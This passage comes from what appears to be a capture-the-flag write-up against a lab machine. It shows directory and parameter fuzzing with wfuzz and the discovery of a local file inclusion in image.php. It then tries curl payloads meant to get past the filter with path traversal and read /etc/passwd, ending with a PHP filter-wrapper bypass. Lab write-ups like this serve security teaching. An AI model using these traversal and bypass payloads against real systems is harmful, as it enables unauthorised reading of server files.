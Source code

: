 ```bash
000000006:   302        0 L      0 W        0 Ch        "# Attribution-Share Alike 3.0 License. To view a copy of this"                                              
000000009:   302        0 L      0 W        0 Ch        "# Suite 300, San Francisco, California, 94105, USA."                                                        
000000010:   302        0 L      0 W        0 Ch        "#"                                                                                                          
000000013:   302        0 L      0 W        0 Ch        "#"                                                                                                          
000000011:   302        0 L      0 W        0 Ch        "# Priority ordered case sensative list, where entries were found"                                           
000000003:   302        0 L      0 W        0 Ch        "# Copyright 2007 James Fisher"                                                                              
000000015:   302        0 L      0 W        0 Ch        "index"                                    
```
We discovered two more php files, footer.php (not very useful) and image.php (apparently empty).

### PHP parameter fuzzing
As we are not able to enumerate the php files, we will try to fuzz the parameters of the login.php file.
```bash
❯ wfuzz -u "http://10.10.11.135/login.php?FUZZ=../../../../etc/passwd" -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -t 200 --hh 0
```
But any parameter tried returns code 200, so we can't fuzz it like this. The last thing we can try is to fuzz the parameters for `image.php`, we are not sure there is one, but `image.php` returns a blank page, so it is probably an auxiliar php recieving params.
```bash
❯ wfuzz -u "http://10.10.11.135/image.php?FUZZ=../../../../etc/passwd" -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -t 200 --hh 0
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.135/image.php?FUZZ=../../../../etc/passwd
Total requests: 6453

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000002803:   200        0 L      3 W        25 Ch       "img"        
```
We found a parameter called img, which returns smth different than blank:
```bash
❯ curl "http://10.10.11.135/image.php?img=../../../../"
Hacking attempt detected!
```
This means we found a parameter that has LFI access to the system, but it is patched, at list on it most basic form. Let's try to bypass the filter:
- Double slash: LFI Detected
    ```bash
    ❯ curl "http://10.10.11.135/image.php?img=....//....//....//....//"
    Hacking attempt detected!
    ```
- Inverted slash: Didn't detect LFI, but no output.
    ```bash
    ❯ curl "http://10.10.11.135/image.php?img=....\/....\/....\/etc/passwd"
    ```
- Encoded path: Didn't detect LFI, but no output.
    ```bash
    ❯ curl "http://10.10.11.135/image.php?img=..%252f..%252f..%252fetc%252fpasswd"
    ```
- Wrappers.Filter: Filter wrappers for LFI
    - ROT13: Success!!!